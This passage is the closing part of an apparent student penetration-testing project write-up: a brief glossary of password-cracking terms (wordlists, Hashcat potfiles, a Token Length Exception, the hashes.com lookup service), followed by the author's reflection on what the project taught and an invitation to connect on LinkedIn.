- A hash algorithm used to protect passwords. It’s older and less secure than modern algorithms like bcrypt.

### Wordlist
- A file that contains a list of commonly used passwords. Examples: `rockyou.txt`, `common.txt`, `xato-net-10-million-passwords.txt`.

### `.potfile` (Hashcat/John Output)
- A file where cracked hashes and passwords are stored after a successful crack. If a hash is already in this file, the tool skips it during future runs.

### Token Length Exception
- An error in hashcat when a hash line is too long or not in the expected format. Usually due to formatting issues in the hash file.

### hashes.com
- A free online hash cracking service that checks your hash against their large database of already cracked passwords.

---

## My Take
This project deepened my practical understanding of password cracking techniques, the importance of securing Linux systems, and the real-world hurdles cybersecurity professionals face during penetration testing. I gained hands-on experience with tools like John the Ripper and Hashcat and also learned how network setup, service enumeration, and file access play a crucial role in successful exploit execution and hash retrieval.
If you found this project insightful, have any suggestions for improvement, or would love to collaborate or connect professionally, feel free to reach out!

**I'd love to network with like-minded individuals** : whether you're a student, professional, or educator. Sharing knowledge is how we grow!

[Connect with me on LinkedIn](https://www.linkedin.com/in/prince-lassey-b90b80197/)

---
